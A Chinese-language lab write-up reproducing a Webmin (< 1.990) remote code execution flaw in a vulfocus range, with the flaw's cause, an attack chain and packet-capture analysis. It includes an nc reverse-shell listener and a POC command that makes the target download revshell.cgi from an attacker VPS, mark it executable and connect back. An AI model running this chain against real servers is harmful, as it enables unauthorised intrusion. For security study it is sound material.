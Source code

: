 

# Webmin远程代码执行漏洞复现（Webmin < 1.990）

## 漏洞说明

Webmin 是一个功能强大且灵活的基于 Web 的服务器管理控制面板，适用于类 Unix 系统。它允许用户通过网页配置系统组件，如用户、磁盘配额、服务、配置文件等，也支持控制诸如 Apache、PHP、MySQL 等开源应用程序。

## 情景分析

进入靶场后，发现 Webmin 登录界面，靶场描述中提供了账号密码。

![进入webmin](./img/进入webmin.png)

登录后台后根据观察后台的整体情况可发现存在多个可利用点，包括：

* **命令执行**：后台存在外部命令窗口，可执行任意系统命令。
  ![外部命令窗](./img/外部命令窗.png)

* **文件读取**：文件管理器允许读取任意路径下文件。
  ![文件读取](./img/文件读取.png)

* **文件上传下载**：支持任意文件上传，上传路径可自定义，同时支持远程 URL 下载。
  ![文件下载上传](./img/文件下载上传.png)

## 漏洞原理分析

Webmin 的文件管理器模块权限控制存在缺陷，低权限认证用户也可以：

* 上传、下载任意文件；
* 修改任意文件权限。

攻击者可上传反弹 Shell 脚本、赋予执行权限，并通过 HTTP 请求执行，实现远程命令执行（RCE）。

## 漏洞影响版本

* **影响版本**：Webmin `< 1.990`
* **测试账户**：`root:password`
* **受影响组件**：`session_login.cgi` 可被滥用

## 实验过程

### 靶机

部署并启动 Webmin 容器或靶场环境，访问其 Web 页面：

![webmin地址](./img/webmin地址.png)

### 攻击机

监听反弹 Shell 端口：

```bash
nc -lvnp 9999
```

准备执行 POC：

```bash
python3 exp.py -t http://目标IP:目标PORT -c root:password -LS vps_ip:vps_port -L vps_ip -P vps_port
```

参数说明：

* `-t`：目标地址；
* `-c`：账号:密码；
* `-LS`：用于创建 HTTP 服务供目标下载文件；
* `-L` 和 `-P`：反弹shell的对象ip，反弹shell的对象port
攻击效果图示：

* 成功反弹 Shell：
  ![找到flg2](./img/找到flg2.png)

* 获取 flag：
  ![找到flg](./img/找到flg.png)
  ![lstemp](./img/lstemp.png)

## 漏洞利用脚本说明

### 利用流程概括：

```bash
1. 创建 revshell.cgi 反弹脚本；
2. 使用提供的账号登录 Webmin；
3. 利用python3python_server是创建了一个httpserver用于服务器下载在本地开启http服务；
4. 目标服务器通过 Webmin 下载 revshell.cgi；
5. 用webmin自带的赋权功能进行普通用户赋权,修改revshell.cgi文件的权限，其可以执行；
6. 访问该脚本触发反弹 Shell（通过http访问revshell.cgi），实现 RCE；
7. 攻击完成后清理文件及进程。
```

脚本示意图：

* 脚本创建与下载：
  ![代码1](./img/代码1.png)

* 文件赋权与触发：
  ![代码2](./img/代码2.png)

## 抓包分析

设置过滤器观察攻击流量。由于为提权漏洞，关键行为为 POST 请求 `session_login.cgi`。

### 登录请求抓包：
首先设定一个过滤，因为这是一个提权漏洞，通过漏洞发送POST请求方式去请求session_login.cgi,如下图所示
![抓包](./img/抓包.png)

### 利用流程抓包：

* 下面两张图是脚本去请求session_login.cgi

  ![抓包1](./img/抓包1.png)
  ![抓包2](./img/抓包2.png)

* 这个包中发现攻击机下载路径以及下载后目标机文件保存路径
  ![抓包4](./img/抓包4.png)
  ![抓包5](./img/抓包5.png)

* 数据包内容：对下载完成文件进行了赋予执行权
  ![抓包6](./img/抓包6.png)

* 观察POC，它需要上传一个Payload后进行加权才能回连，确定判断攻击成功条件为上传成功文件并赋权执行。
  ![抓包7](./img/抓包7.png)
## 遇到的问题

vulfocus提示“服务器内部错误，请联系管理员”

![服务器内部异常](./img/服务器内部异常.png)

原因：

* 出现的原因在于redis服务未启动，所以需要进入容器内部启动redis服务
```bash
    docker ps # 查看当前运行的vulfocus容器ID
    docker exec -it <container-id> bash # 进入容器
    redis-server & # 启动redis服务
```
